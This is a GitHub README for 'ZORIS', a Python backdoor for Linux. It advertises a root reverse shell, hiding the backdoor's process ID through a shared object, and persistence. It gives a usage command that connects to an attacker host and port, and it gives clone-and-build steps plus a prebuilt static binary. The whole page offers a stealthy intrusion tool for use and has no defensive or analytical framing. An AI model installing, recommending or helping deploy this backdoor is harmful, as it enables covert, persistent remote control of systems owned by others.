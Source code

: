 <h1 align="center">「🚪」ZORIS</h1>

<p align="center"><img src="assets/1.png"></p>

<p align="center">ZORIS is a simple backdoor created in python in order to bring the shell of a linux system to a machine through the reverse connection, but make no mistake, ZORIS has a shared object (so) that allows you to hide the PID of the backdoor installed on the system, keeping it out of sight of other users inside the machine and being silent. It is necessary to be the root user, but by activating it, its persistence is certain.</p>

### Benefits:

* Reverse shell connection as root

* Hide the PID

* Persistence

## Tested linux distro

- [x] Arch Linux
- [X] CentOS
- [X] Debian
- [ ] Fedora
- [ ] openSUSE
- [ ] Gentoo

## How to use

<p align="center"><img src="assets/2.png"></p>

```
# ./zoris -rh <ATTACKER HOST> -rp <ATTACKER PORT>
```

## Installation

```
# git clone https://github.com/MrEmpy/zoris.git
# chmod +x build.sh
# ./build.sh
```

Note: If you prefer, we have the ZORIS static binary in the ```static``` directory with all dependencies inserted.

## Available architecture of static binary

- [x] amd64
- [ ] i386
- [ ] arm64
- [ ] armv6

